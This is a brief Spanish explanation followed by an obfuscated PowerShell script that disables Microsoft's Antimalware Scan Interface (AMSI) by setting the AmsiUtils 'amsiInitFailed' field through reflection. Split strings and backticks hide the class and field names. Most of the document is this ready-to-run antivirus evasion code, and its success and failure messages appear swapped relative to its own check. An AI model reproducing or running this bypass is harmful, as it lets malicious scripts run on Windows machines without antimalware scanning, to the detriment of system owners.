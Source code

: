 El script de PowerShell intenta deshabilitar el Servicio de Inspección Antimalware (AMSI) de Microsoft, una característica de seguridad de Windows que permite a las aplicaciones antivirus escanear scripts de PowerShell en busca de comportamientos maliciosos.

Primero, la función **`Is-AMSIDisabled`** verifica si AMSI está deshabilitado, utilizando **`Get-variable`** para obtener una variable específica y comprobando si el campo 'amsi' es verdadero.

Luego, el bloque **`try`** intenta deshabilitar AMSI estableciendo el campo 'amsi' en verdadero. Si tiene éxito, imprime "AMSI Successfully Disabled". Si AMSI ya está deshabilitado, imprime "AMSI". Si hay un error, captura la excepción con catch e imprime "Error Disabling AMSI: $_", donde $_ es la excepción capturada.



```
# Verify if AMSI is disabled
function Is-AMSIDisabled {
    return ((Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).GetValue($null) -eq $true
}

# AMSI Bypass
try {
    Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
    (Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})

    if (Is-AMSIDisabled) {
        Write-Output "AMSI"
    } else {
        Write-Output "AMSI Successfully Disabled"
    }
} catch {
    Write-Output "Error Disabling AMSI: $_"
}

```

